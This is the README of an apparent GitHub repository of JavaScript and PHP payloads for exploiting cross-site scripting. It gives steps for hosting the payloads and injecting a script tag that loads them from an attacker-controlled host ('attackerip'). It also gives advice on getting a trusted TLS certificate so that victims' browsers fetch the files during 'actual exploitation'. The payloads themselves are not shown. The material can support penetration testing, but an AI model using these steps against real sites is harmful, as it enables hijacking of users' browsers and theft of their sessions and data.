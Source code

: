 # xss_payloads

Payloads for practical exploitation of cross site scripting.

## Usage

1. Find XSS vuln in your app
2. Get PoC exploit: alert(1) etc
3. Host these payloads somewhere
4. Use vuln to pull one of these payloads into the app `<script src="http://attackerip/file.js"></script>`
5. Profit

## js vs php files

Some of the files are plain JavaScript .js files, others are PHP scripts which serve JavaScript when rendered in order to do some more complex stuff. Make sure you have a PHP interpreter running on your web server of choice to get these to work `</obvious>`

## Common Problems

* You can't serve these over HTTP if your app is running on HTTPS. You'll need to serve them over HTTPS
* If you're running these over HTTPS for actual exploitation rather than a PoC, you'll need a proper trusted TLS cert (Let's Encrypt CA, for example) otherwise victim's browsers won't fetch the files at all. If it's for a PoC you can just temporarily trust your self signed cert.
* Hit F12 and view the debug console for any information about why a particular script might not work
